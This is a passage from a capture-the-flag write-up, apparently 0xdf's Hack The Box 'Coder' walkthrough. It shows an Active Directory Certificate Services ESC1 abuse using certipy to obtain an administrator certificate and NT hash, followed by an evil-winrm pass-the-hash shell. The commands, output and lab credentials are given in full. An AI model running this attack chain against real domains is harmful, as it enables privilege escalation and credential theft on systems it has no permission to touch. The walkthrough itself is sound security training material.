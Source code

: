                                               CODER.HTB\Local System
                                              CODER.HTB\Enterprise Admins
        [!] Vulnerabilities
          ESC1                              : 'CODER.HTB\\Erron Black' can enroll, enrollee supplies subject and template allows client authentication
          ESC4                              : Template is owned by CODER.HTB\Erron Black
    

ESC1 is what I’ve configured, and ESC4 is because e.black owns the template
(and therefore could abuse it).

#### Exploit ESC1

I’ll use `certipy` to request a certificate and key for administrator:

    
    
    oxdf@hacky$ certipy req -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -target coder.htb -ca coder-DC01-CA -template 0xdf-ESC1 -upn administrator@coder.htb
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 15
    [*] Got certificate with UPN 'administrator@coder.htb'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator.pfx'
    

Using `administrator.pfx`, I’ll dump the NTLM hash for administrator:

    
    
    oxdf@hacky$ certipy auth -pfx administrator.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Using principal: administrator@coder.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@coder.htb': aad3b435b51404eeaad3b435b51404ee:807726fcf9f188adc26eeafd7dc16bb7
    

### WinRM

Regardless of how I get the administrator user’s NTLM, I’ll use it to get a
shell over WinRM:

    
    
    oxdf@hacky$ evil-winrm -i coder.htb -u administrator -H '807726fcf9f188adc26eeafd7dc16bb7'
    
    Evil-WinRM shell v3.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents>
    

And grab `root.txt`:

    
    
    *Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
    aeecabd9************************
    

[](/2023/12/16/htb-coder.html)

